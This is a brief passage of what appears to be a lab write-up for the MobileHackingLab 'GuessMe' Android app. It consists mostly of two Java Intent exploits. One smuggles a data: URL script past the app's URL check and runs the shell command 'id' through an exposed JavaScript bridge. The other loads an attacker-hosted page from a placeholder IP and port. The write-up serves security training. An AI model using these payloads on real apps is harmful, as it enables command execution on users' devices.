 ![](/assets/img/mhl/GuessMe/3.png)

<br />

direct HTML content in the url

```java
Intent intent = new Intent();
intent.setClassName("com.mobilehackinglab.guessme", "com.mobilehackinglab.guessme.WebviewActivity");


intent.setData(Uri.parse("https://mobilehackinglab?url=data:text/html,<h1>test</h1><div id=\"myDiv\"></div><script>let command = AndroidBridge.getTime(\"id\");document.getElementById(\"myDiv\").innerHTML += command;</script><!--mobilehackinglab.com"));


intent.setAction("android.intent.action.VIEW");
startActivity(intent);
```

<br />

using python server

```java
Intent intent = new Intent();
intent.setClassName("com.mobilehackinglab.guessme", "com.mobilehackinglab.guessme.WebviewActivity");

intent.setData(Uri.parse("https://mobilehackinglab?url=http://<ip:port>/guessme.html?any=mobilehackinglab.com"));

intent.setAction("android.intent.action.VIEW");
startActivity(intent);
```
